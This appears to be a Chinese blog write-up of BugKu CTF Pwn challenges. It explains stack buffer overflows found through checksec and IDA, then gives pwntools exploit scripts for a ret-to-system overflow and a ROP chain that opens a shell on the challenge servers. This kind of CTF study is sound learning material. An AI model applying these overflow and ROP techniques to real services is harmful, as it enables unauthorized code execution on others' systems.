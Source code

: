 ```yaml
---
title: BUGKU[Pwn]
author: Stan
date: 2020-05-18 09:10:33 +0800
categories: [BugKu,BugKu-Pwn]
tags: [Pwn]
---
```

## pwn1
```
nc 114.116.54.89 10001
```

直接nc过去，ls即可看到文件，发现flag，cat即可发现flag

```
cat flag
```

---

## pwn2

先下载文件，拉入UBUNTU，checksec检查一下

	checksec pwn2

发现啥都没开，最重要的是架构是amd64

在windows里把pwn2拉入64位ida

按`F5`切换到伪C

注意这句话

> read(0, &s, 0x100uLL);

常见的缓冲区漏洞

按`shift+f12`查看字符串

发现有一个cat flag

按`x`发现交叉引用

> .text:0000000000400769                 mov     edi, offset command ; "cat flag"
> .text:000000000040076E                 call    _system

之后计算偏移offset

> char s; // [sp+0h] [bp-30h]

s=30h=48

向上8字节rbp

> +0000000000000000  s              db 8 dup(?)
> +0000000000000008  r              db 8 dup(?)

所以offset=48+8=56

之后写exploit

```python
from pwn import * 
a=remote('114.116.54.89',10003)
a.recvuntil("?") 
a.sendline(b"a" * 56 + p64(0x400769))
a.interactive()
```

然后运行

```
python 1.py
```

即可发现flag

---

## pwn4

先下载文件，拉入UBUNTU，checksec检查一下

	checksec pwn4

发现啥都没开，最重要的是架构是amd64

在windows里把pwn4拉入64位ida

按`F5`切换到伪C

发现read可以溢出

> read(0, &s, 0x30uLL);

`shift+f12`查看字符串，发现没有/bin/sh,但是有$0

> .data:0000000000601100 a4985y9yDyYfg8y db '4985y9y()DY)*YFG8yas08d976s08d7$0',0

$0传入system的效果和/bin/sh一样

查找$0的地址

````
ROPgadget --binary pwn4 --string '\$0'
````

![image-20200922233127332](https://i.loli.net/2020/09/22/PiJSHxp349dfFvK.png)

因为要做ROP，之后找pop rdi ; ret的地址

````
ROPgadget --binary pwn4 --only 'pop|ret'
````

![image-20200922233308201](https://i.loli.net/2020/09/22/awYEFAjROLTXo9q.png)

之后找system函数的地址，直接在IDA里就能找到

> .text:000000000040075A                 call    _system

然后构造exploit

````python
from pwn import * 
a=remote('114.116.54.89',10004)
a.recvuntil("e") 

rdi = 0x00000000004007d3 
bash = 0x000000000060111f
system = 0x000000000040075A
a.sendline(b"a" * (16+8) +p64(rdi)+p64(bash)+p64(system))

a.interactive()
````

运行脚本就连上了，`catflag`即可发现flag